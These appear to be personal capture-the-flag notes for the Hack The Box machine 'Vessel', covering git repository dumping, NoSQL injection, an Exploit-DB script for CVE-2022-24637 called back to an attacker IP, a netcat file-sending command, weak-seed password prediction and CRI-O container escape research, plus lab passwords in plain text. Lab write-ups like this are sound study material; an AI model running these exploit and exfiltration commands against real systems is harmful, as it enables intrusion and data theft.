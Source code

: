 # Vessel Helped-Through

Name: Vessel
Date:  
Difficulty:  Hard
Goals: 
- Terrible previous week come back with a vengence
- Exploit Dev
- Containers and namespace
Learnt:
Beyond Root:


Watching the first minute of Ippsec explain the awesomeness of this box and that it was CVE focused, but required you to write the exploits. I have decided that I will revisit this box once I have forgotten while leaving the  what I have done to be put to one side.  




































## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Apex/Screenshots/ping.png)

vessel.htb

https://github.com/arthaud/git-dumper

Git contains compressed information about a repository including all previous versions.

```bash
git-dumper http://vessel.htb/dev/.git ./dev
```

![](usernameethanhtb.png)

![](passwordfordb.png)

` : daqvACHKvRn84VdVp`

![](returntooldversion.png)

![1080](sqlinjectdisc.png)


## NoSQL Exploit

Type checking problem [Stackhawk](https://www.stackhawk.com/blog/node-js-sql-injection-guide-examples-and-prevention/)

![](nosql1.png)

![](nosql2.png)

![](nosql3.png)


## CVE Exploit 


http://openwebanalytics.vessel.htb/

![](openwebanalyticssearchsploit.png)

https://nvd.nist.gov/vuln/detail/CVE-2022-24637

![](sauceyversion.png)
https://www.exploit-db.com/exploits/51026

```bash
python3 51026.py -u admin -p 'admin' http://openwebanalytics.vessel.htb 10.10.14.102 6969
```

## Foothold

![](foothold.png)



## PrivEsc - through Steven to Ethan

```bash
nc $ip $port -w3 $files
```

https://medium.com/cassandra-cryptoassets/how-to-decompile-compiled-pyc-python-files-50e5f45d1edb
https://github.com/extremecoders-re/pyinstxtractor

![](screenshot.png)


https://github.com/rocky/python-uncompyle6/
https://pypi.org/project/PySide2/
```bash
pip install uncompyle6
pip3 install PySide2
```

![](extrxtthepyc.png)

Python2 
QRand from QtCore 

0-1000

Refering back screenshot.png 

Length is equal to 32

It is also pointed out it for Windows so the qrand

@n4nn4n0 : Did some testing with std::rand(1). Windows and Linux give different values, but clang and gcc are the same.

Windows machine setup incoming... along with completion of [[Sharp-Helped-Through]]

```bash
pdf2john
```

The problem is there is no entropy and same seed will produce the same outcome like minecraft. There are only a thousand

- Use the virtual environment to test code

To read the pdf
```bash
apt install Okular
```

## PrivEsc Ethan to Root

SETUIDs and `owauser : Vux8*ZF3rek94%N` for owa.
![](linpeaspinns.png)
https://fossies.org/linux/cri-o/pinns/src/pinns.c

https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
Warning: *"This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work (unless you have a rootless configuration). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers"*


Reading about containerss and namespaces:
https://opensource.com/article/19/10/namespaces-and-containers-linux

[https://mkdev.me/posts/the-tool-that-really-runs-your-containers-deep-dive-into-runc-and-oci-specifications](https://mkdev.me/posts/the-tool-that-really-runs-your-containers-deep-dive-into-runc-and-oci-specifications)

Al ran into rootless issues... @paffet suggests: [https://github.com/opencontainers/runc/#rootless-containers](https://github.com/opencontainers/runc/#rootless-containers)

https://www.toptal.com/linux/separation-anxiety-isolating-your-system-with-linux-namespaces


[https://medium.com/@Mark.io/simple-rootless-containers-with-runc-on-centos-redhat-f9230f74b88b](https://medium.com/@Mark.io/simple-rootless-containers-with-runc-on-centos-redhat-f9230f74b88b)

[https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

DeCruyssen points out: wrong pinns.c
https://github.com/cri-o/cri-o/blob/v1.19.0/pinns/src/pinns.c

Search Engine Dorking 
```
-"docker"
```

https://www.zend.com/blog/rootless-containers
https://opensource.com/article/19/5/shortcomings-rootless-containers

## Beyond Root


